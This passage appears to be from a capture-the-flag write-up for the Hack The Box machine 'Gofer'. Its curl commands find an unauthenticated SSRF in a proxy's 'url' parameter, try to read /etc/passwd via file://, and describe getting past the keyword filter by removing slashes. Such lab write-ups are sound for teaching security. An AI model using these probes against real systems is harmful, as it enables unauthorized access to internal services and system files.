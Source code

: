 Weak credentials don't work at all. I tested a few common directories with different requests, and found that `index.php` accepted POST requests without credentials:

```
$ curl -X POST http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

Testing it a bit more reveals where the URL parameter can be specified:

```
$ curl -X POST -d 'URL=http://10.10.14.42' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
$ curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.14.42
<!-- Welcome to Gofer proxy -->
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href=".android/">.android/</a></li>
<li><a href=".ansible/">.ansible/</a></li>
<TRUNCATED>
```

So we have SSRF on this machine with this `url` parameter. I attempted some LFI using the `file://` protocol, but there's a WAF in the way:

```
$ curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```

A bit more testing by removing `/` characters eventually works! This tells me that the WAF is rather weak.&#x20;

<figure><img src="../../.gitbook/assets/image (4125).png" alt=""><figcaption></figcaption></figure>
